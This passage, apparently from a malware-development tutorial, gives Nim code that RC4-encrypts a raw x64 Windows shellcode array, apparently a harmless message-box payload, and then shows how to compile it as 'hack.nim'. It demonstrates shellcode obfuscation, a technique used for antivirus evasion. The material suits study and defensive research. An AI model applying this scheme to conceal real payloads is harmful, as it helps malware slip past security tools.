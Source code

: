 ```nim
    0x8b,0x52,0x18,0x3e,0x48,0x8b,0x52,0x20,0x3e,0x48,0x8b,0x72,
    0x50,0x3e,0x48,0x0f,0xb7,0x4a,0x4a,0x4d,0x31,0xc9,0x48,0x31,
    0xc0,0xac,0x3c,0x61,0x7c,0x02,0x2c,0x20,0x41,0xc1,0xc9,0x0d,
    0x41,0x01,0xc1,0xe2,0xed,0x52,0x41,0x51,0x3e,0x48,0x8b,0x52,
    0x20,0x3e,0x8b,0x42,0x3c,0x48,0x01,0xd0,0x3e,0x8b,0x80,0x88,
    0x00,0x00,0x00,0x48,0x85,0xc0,0x74,0x6f,0x48,0x01,0xd0,0x50,
    0x3e,0x8b,0x48,0x18,0x3e,0x44,0x8b,0x40,0x20,0x49,0x01,0xd0,
    0xe3,0x5c,0x48,0xff,0xc9,0x3e,0x41,0x8b,0x34,0x88,0x48,0x01,
    0xd6,0x4d,0x31,0xc9,0x48,0x31,0xc0,0xac,0x41,0xc1,0xc9,0x0d,
    0x41,0x01,0xc1,0x38,0xe0,0x75,0xf1,0x3e,0x4c,0x03,0x4c,0x24,
    0x08,0x45,0x39,0xd1,0x75,0xd6,0x58,0x3e,0x44,0x8b,0x40,0x24,
    0x49,0x01,0xd0,0x66,0x3e,0x41,0x8b,0x0c,0x48,0x3e,0x44,0x8b,
    0x40,0x1c,0x49,0x01,0xd0,0x3e,0x41,0x8b,0x04,0x88,0x48,0x01,
    0xd0,0x41,0x58,0x41,0x58,0x5e,0x59,0x5a,0x41,0x58,0x41,0x59,
    0x41,0x5a,0x48,0x83,0xec,0x20,0x41,0x52,0xff,0xe0,0x58,0x41,
    0x59,0x5a,0x3e,0x48,0x8b,0x12,0xe9,0x49,0xff,0xff,0xff,0x5d,
    0x49,0xc7,0xc1,0x00,0x00,0x00,0x00,0x3e,0x48,0x8d,0x95,0xfe,
    0x00,0x00,0x00,0x3e,0x4c,0x8d,0x85,0x09,0x01,0x00,0x00,0x48,
    0x31,0xc9,0x41,0xba,0x45,0x83,0x56,0x07,0xff,0xd5,0x48,0x31,
    0xc9,0x41,0xba,0xf0,0xb5,0xa2,0x56,0xff,0xd5,0x6d,0x65,0x6f,
    0x77,0x2d,0x6d,0x65,0x6f,0x77,0x21,0x00,0x63,0x61,0x74,0x00
    ]
  let key: seq[byte] = @[0x6d, 0x65, 0x6f, 0x77, 0x6d, 0x65, 0x6f, 0x77]

  let ciphertext = RC4(plaintext, key)
  var enchex: seq[string]
  for b in ciphertext:
    enchex.add("0x" & $toHex(b, 2))
  echo "payload encrypted:\n", enchex.join(", ")

  let decrypted = RC4(ciphertext, key)
  var decrhex: seq[string]
  for b in decrypted:
    decrhex.add("0x" & $toHex(b, 2))
  echo "original payload:\n", decrhex.join(", ")
```

### demo 1

Let's check it in action. Compile it:    

```bash
nim c -d:mingw --cpu:amd64 hack.nim
```
